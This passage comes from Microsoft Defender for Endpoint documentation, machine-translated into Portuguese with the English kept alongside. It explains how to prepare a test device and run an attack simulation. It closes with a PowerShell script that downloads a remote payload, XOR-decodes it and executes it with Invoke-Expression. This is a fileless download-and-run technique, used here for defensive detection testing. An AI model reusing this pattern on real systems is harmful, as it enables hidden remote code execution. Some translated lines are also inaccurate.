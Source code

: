    1. <span data-ttu-id="48cb2-144">[A Windows Defender Antivírus](/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features).</span><span class="sxs-lookup"><span data-stu-id="48cb2-144">[Turn on Windows Defender Antivirus](/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features).</span></span> <span data-ttu-id="48cb2-145">Se você estiver com problemas para habil Windows Defender Antivírus, consulte este tópico [de solução de problemas.](/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy)</span><span class="sxs-lookup"><span data-stu-id="48cb2-145">If you are having trouble enabling Windows Defender Antivirus, see this [troubleshooting topic](/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy).</span></span>

   1. <span data-ttu-id="48cb2-146">Verifique se o dispositivo de teste está [conectado ao Microsoft Defender para Ponto de Extremidade)](/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints).</span><span class="sxs-lookup"><span data-stu-id="48cb2-146">Verify that the test device is [onboarded to Microsoft Defender for Endpoint)](/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints).</span></span>

<span data-ttu-id="48cb2-147">Se você usar um locatário existente e implementar grupos de dispositivos, crie um grupo de dispositivos dedicado para o dispositivo de teste e pressione-o para o nível superior no UX de configuração.</span><span class="sxs-lookup"><span data-stu-id="48cb2-147">If you use an existing tenant and implement device groups, create a dedicated device group for the test device and push it to top level in configuration UX.</span></span>

## <a name="run-the-attack-scenario-simulation"></a><span data-ttu-id="48cb2-148">Executar a simulação de cenário de ataque</span><span class="sxs-lookup"><span data-stu-id="48cb2-148">Run the attack scenario simulation</span></span>

<span data-ttu-id="48cb2-149">Para executar a simulação de cenário de ataque:</span><span class="sxs-lookup"><span data-stu-id="48cb2-149">To run the attack scenario simulation:</span></span>

1. <span data-ttu-id="48cb2-150">Faça logoff no dispositivo de teste com a conta de usuário de teste.</span><span class="sxs-lookup"><span data-stu-id="48cb2-150">Log in to the test device with the test user account.</span></span>

2. <span data-ttu-id="48cb2-151">Abra uma Windows PowerShell no dispositivo de teste.</span><span class="sxs-lookup"><span data-stu-id="48cb2-151">Open a Windows PowerShell window on the test device.</span></span>

3. <span data-ttu-id="48cb2-152">Copie o seguinte script de simulação:</span><span class="sxs-lookup"><span data-stu-id="48cb2-152">Copy the following simulation script:</span></span>

   ```powershell
   [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;$xor
   = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');$base64String = (Invoke-WebRequest -URI "https://winatpmanagement.windows.com/client/management/static/MTP_Fileless_Recon.txt"
   -UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;
   $decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];
   $i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
   ```
